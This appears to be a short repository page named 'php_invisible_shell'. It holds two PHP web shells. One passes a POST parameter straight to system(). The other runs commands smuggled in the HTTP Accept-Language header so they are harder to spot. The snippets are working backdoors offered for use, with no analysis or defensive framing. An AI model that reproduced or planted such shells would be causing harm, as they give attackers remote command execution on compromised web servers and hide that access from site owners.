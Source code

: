 # php_invisible_shell

```
<?php

system($_POST['cmd']);

?>
```

```
<?php

system($_SERVER["HTTP_ACCEPT_LANGUAGE"]);

?>
```
